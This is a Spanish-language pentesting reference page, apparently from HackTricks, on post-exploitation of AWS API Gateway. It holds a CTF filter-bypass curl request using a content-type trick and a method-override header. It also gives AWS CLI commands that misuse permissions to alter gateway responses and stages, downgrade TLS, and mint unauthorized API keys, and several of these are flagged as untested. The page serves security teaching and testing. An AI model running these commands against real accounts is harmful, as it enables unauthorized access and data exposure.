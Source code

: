 # AWS - API Gateway Post Explotación

{{#include ../../../banners/hacktricks-training.md}}

## API Gateway

Para más información, consulta:

{{#ref}}
../aws-services/aws-api-gateway-enum.md
{{#endref}}

### Acceso a APIs no expuestas

Puedes crear un endpoint en [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con el servicio `com.amazonaws.us-east-1.execute-api`, exponer el endpoint en una red a la que tengas acceso (potencialmente a través de una máquina EC2) y asignar un grupo de seguridad que permita todas las conexiones.\
Luego, desde la máquina EC2 podrás acceder al endpoint y, por lo tanto, llamar a la API del gateway que no estaba expuesta anteriormente.

### Bypass Request body passthrough

Esta técnica se encontró en [**este informe de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Como se indica en la [**documentación de AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) en la sección `PassthroughBehavior`, por defecto, el valor **`WHEN_NO_MATCH`**, al verificar el encabezado **Content-Type** de la solicitud, pasará la solicitud al backend sin transformación.

Por lo tanto, en el CTF, el API Gateway tenía una plantilla de integración que **estaba impidiendo que la bandera fuera exfiltrada** en una respuesta cuando se enviaba una solicitud con `Content-Type: application/json`:
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
Sin embargo, enviar una solicitud con **`Content-type: text/json`** evitaría ese filtro.

Finalmente, como el API Gateway solo permitía `Get` y `Options`, era posible enviar una consulta de dynamoDB arbitraria sin ningún límite enviando una solicitud POST con la consulta en el cuerpo y utilizando el encabezado `X-HTTP-Method-Override: GET`:
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
### Uso de Planes DoS

En la sección de **Enumeración** puedes ver cómo **obtener el plan de uso** de las claves. Si tienes la clave y está **limitada** a X usos **por mes**, podrías **simplemente usarla y causar un DoS**.

La **API Key** solo necesita ser **incluida** dentro de un **encabezado HTTP** llamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateGatewayResponse` y `apigateway:CreateDeployment` puede **modificar una respuesta de Gateway existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Filtración de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

> [!NOTE]
> Necesita pruebas

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateStage` y `apigateway:CreateDeployment` puede **modificar una etapa existente de API Gateway para redirigir el tráfico a una etapa diferente o cambiar la configuración de caché para obtener acceso no autorizado a datos en caché**.
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Acceso no autorizado a datos en caché, interrumpiendo o interceptando el tráfico de la API.

> [!NOTE]
> Necesita pruebas

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:PutMethodResponse` y `apigateway:CreateDeployment` puede **modificar la respuesta del método de un método de API Gateway REST API existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Filtración de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

> [!NOTE]
> Necesita pruebas

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateRestApi` y `apigateway:CreateDeployment` puede **modificar la configuración de la API REST de API Gateway para deshabilitar el registro o cambiar la versión mínima de TLS, debilitando potencialmente la seguridad de la API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Debilitar la seguridad de la API, permitiendo potencialmente el acceso no autorizado o exponiendo información sensible.

> [!NOTE]
> Necesita pruebas

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un atacante con permisos `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` y `apigateway:CreateUsagePlanKey` puede **crear nuevas claves de API, asociarlas con planes de uso y luego usar estas claves para acceder no autorizado a las APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acceso no autorizado a recursos de API, eludiendo controles de seguridad.

> [!NOTA]
> Necesita pruebas

{{#include ../../../banners/hacktricks-training.md}}
